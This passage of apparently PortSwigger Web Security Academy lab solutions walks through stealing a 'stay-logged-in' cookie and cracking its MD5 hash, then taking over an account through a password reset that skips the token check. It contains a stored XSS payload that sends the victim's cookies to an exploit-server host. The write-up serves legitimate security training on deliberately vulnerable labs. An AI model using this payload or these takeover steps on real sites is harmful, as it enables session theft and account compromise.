 
### Solution
1. With Burp running, use your own account to investigate the "Stay logged in" functionality. Notice that the ``stay-logged-in`` cookie is Base64 encoded.
2. In the Proxy > HTTP history tab, go to the Response to your login request and highlight the ``stay-logged-in`` cookie, to see that it is constructed as follows:
```
username+':'+md5HashOfPassword
```
3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS.
4. Go to the exploit server and make a note of the URL.
5. Go to one of the blogs and post a comment containing the following stored XSS payload, remembering to enter your own exploit server ID:
```
<script>document.location='//your-exploit-server-id.web-security-academy.net/'+document.cookie</script>
```
6. On the exploit server, open the access log. There should be a GET request from the victim containing their ``stay-logged-in`` cookie.
7. Decode the cookie in Burp Decoder. The result will be:
```
carlos:26323c16d5f4dabff3bb136f2460a943
```
8. Copy the hash and paste it into a search engine. This will reveal that the password is ``onceuponatime``.
9. Log in to the victim's account, go to the "My account" page, and delete their account to solve the lab.

## Password reset broken logic
Reference: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic


### Quick Solution
This lab has a vulnerable password reset functionality. The link received by email is **reusable** and can also target every user just by changing the ``username`` parameter.


### Solution
1. With Burp running, click the Forgot your password? link and enter your own username.
2. Click the Email client button to view the password reset email that was sent. Click the link in the email and reset your password to whatever you want.
3. In Burp, go to Proxy > HTTP history and study the requests and responses for the password reset functionality. Observe that the reset token is provided as a URL query parameter in the reset email. Notice that when you submit your new password, the ``POST /forgot-password?temp-forgot-password-token`` request contains the username as hidden input. Send this request to Burp Repeater.
4. In Burp Repeater, observe that the password reset functionality still works even if you delete the value of the ``temp-forgot-password-token parameter`` in both the URL and request body. This confirms that the token is not being checked when you submit the new password.
5. In your browser, request a new password reset and change your password again. Send the ``POST /forgot-password?temp-forgot-password-token`` request to Burp Repeater again.
6. In Burp Repeater, delete the value of the ``temp-forgot-password-token`` parameter in both the URL and request body. Change the ``username`` parameter to ``carlos``. Set the new password to whatever you want and send the request.
7. In your browser, log in to Carlos's account using the new password you just set. Click My account to solve the lab.
